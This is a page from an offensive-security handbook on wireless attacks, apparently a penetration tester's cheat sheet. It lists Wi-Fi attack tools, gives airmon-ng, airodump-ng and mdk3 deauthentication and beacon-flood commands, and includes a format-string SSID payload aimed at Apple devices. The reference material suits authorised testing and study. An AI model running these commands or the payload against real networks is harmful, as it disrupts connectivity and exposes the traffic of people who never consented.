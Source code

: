 # Wireless Attacks

## Table of Contents

- [Tooling](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Tooling)
- [airodump-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#airodump-ng)
- [airmon-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#airmon-ng)
- [Apple Wi-Fi Evil SSID](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Apple-Wi-Fi-Evil-SSID)
- [mdk3](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#mdk3)

## Tooling

| Name | Description | URL |
| --- | --- | --- |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |

## airodump-ng

```c
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## Apple Wi-Fi Evil SSID

```c
%p%s%s%s%s%n
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```c
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```
